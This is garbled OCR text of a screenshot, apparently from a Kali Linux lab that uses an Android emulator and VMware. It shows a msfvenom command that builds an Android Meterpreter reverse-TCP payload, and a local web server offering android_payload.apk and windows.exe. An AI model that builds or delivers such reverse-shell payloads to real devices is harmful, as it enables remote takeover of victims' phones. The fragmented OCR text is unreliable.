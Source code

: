hongk [-] No platform was selecte
Ssf:Modules: Platform:sAndroid from the payload [-] No arch selected, selec ing arch
blyak From the payLoad No encoder specified, outpu
Payload size: 10188 bytes hongke@kali:~$



nox 夜神模拟器6.6.0.9
Android 5 选项卡
http://192.168.3.207/ hongke@kali:~
hongke-文件
Index of/ hongke@bli-
文件（F） 編辑（E）
Last modified
书 Name
Size Description (Ethernet)
수
版 1.png
2020-06-06 02:33 1.8M 文件系统
0
?new.apk
2020-06-12 15:31 111M Kali Linux am...
windows.exe 2020-06-06 01:59 72K
文件助手 公共
视频 白
Apache/2.4.43 (Debian) Server at 192.168.3.207 Port 80 hongke
0
collisions 0
安装APK 桌面
D 回收站
文档
多开器 文档
音乐
关闭应用 图片
视频
android_payload.a
windwos_payload. ？下载
pk
exe 网络
浏览网络
0 10个项目：82.0KiB（83，990字节），可用空间：92.6GIB
0 collisions 0 hongke@kali:~$ msfvenom -p android/meterpreter/reverse_tcp lhost=192. oid_payload.apk
[-] No platform was selected, choosing Msf::Module::Platform::Android [-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload Payload size: 10188 bytes
hongke@kali:~$ 

hongkeketang-VMware Workstation
夜神模拟器 6.6.0.9
ndroid s
×
文件D 编项E 查看凹 出拟机（M） 选项卡D 帮动（H）
03:14
hongkeketang
□Windows Server 2008 R2 x64
GWindows XPProfessional
192.168.3.229
[hongke@kali: ~]
hongke@kali:~
hongke — 文件管理器
Index of /
健位设置
hongke—文件管理器
hongke@kali-